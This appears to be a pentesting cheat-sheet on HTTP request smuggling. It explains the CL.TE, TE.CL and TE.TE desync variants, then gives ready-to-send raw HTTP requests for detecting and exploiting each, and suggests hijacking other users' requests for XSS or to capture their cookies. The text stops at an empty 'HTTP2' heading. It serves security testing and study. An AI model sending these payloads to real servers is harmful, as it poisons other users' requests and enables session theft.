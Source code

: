 ```yaml
---
title: Request Smuggling
description: HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.
---
```


## What happens in an HTTP request smuggling attack?

Today's web applications frequently employ chains of HTTP servers between users and the ultimate application logic. Users send requests to a front-end server (sometimes called a load balancer or reverse proxy) and this server forwards requests to one or more back-end servers. This type of architecture is increasingly common, and in some cases unavoidable, in modern cloud-based applications.




When the front-end server forwards HTTP requests to a back-end server, it typically sends several requests over the same back-end network connection, because this is much more efficient and performant. The protocol is very simple: HTTP requests are sent one after another, and the receiving server parses the HTTP request headers to determine where one request ends and the next one begins:

![State of the art server-side communication](smuggling-forwarding-http-requests-to-back-end-server.svg)

In this situation, it is crucial that the front-end and back-end systems agree about the boundaries between requests. Otherwise, an attacker might be able to send an ambiguous request that gets interpreted differently by the front-end and back-end systems:

![Request smuggling attack](smuggling-http-request-to-back-end-server.svg)

Here, the attacker causes part of their front-end request to be interpreted by the back-end server as the start of the next request. It is effectively prepended to the next request, and so can interfere with the way the application processes that request. This is a request smuggling attack, and it can have devastating results.

## Notation

- **CL.TE**: front-end server uses the `Content-Length` header and the back-end server server uses the `Transfer-Encoding` header.
- **TE.CL**: front-end server uses the `Transfer-Encoding` header and the back-end server server uses the `Content-Length` header.
- **TE.TE**: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.


## Detection

Please **FIRST** try detecting **CL.TE** as if it is vulnerable to it, the **TE.CL** detection payload wil poison the socket and cause a lot of harm

### **CL.TE** detection

Send the following request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Transfer-Encoding: chunked
Content-Length: 4

1
Z
Q
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: frontend response
 - TE.CL: frontend response
 - **CL.TE: timeout** (_vulnerable_)

Only after confirming no **CL.TE** desync attacks can be performed you can check the next variant:


### **TE.CL** detection

Send the following request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: backend response
 - **TE.CL: timeout** (_vulnerable_)
 - _CL.TE: socket poison_ 💀




## Exploitation


### CL.TE

You can just _poison_ legitimate requests. For example the following request would result on the next user doing a `SMUGGLEDPOST` request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

You can Actually change other users requests, so you can force them  to execute a XSS for example. It is also common for web proxies to hapily redirect users based on the host header so you could redirect people to your collaborator with their cookies by just specifiying a host header for the users.



### TE.CL


```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Cookie: session=fnJJc90vRfPmIYHB3xmzTYJyhLx5JhGO
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

9d
GPOST / HTTP/1.1
Host: {{ target-domain vulerable.net }}
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

a=
0


```



## TE.TE into CL.TE


```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: cow
Transfer-Encoding: chunked

0

G
```

## HTTP2


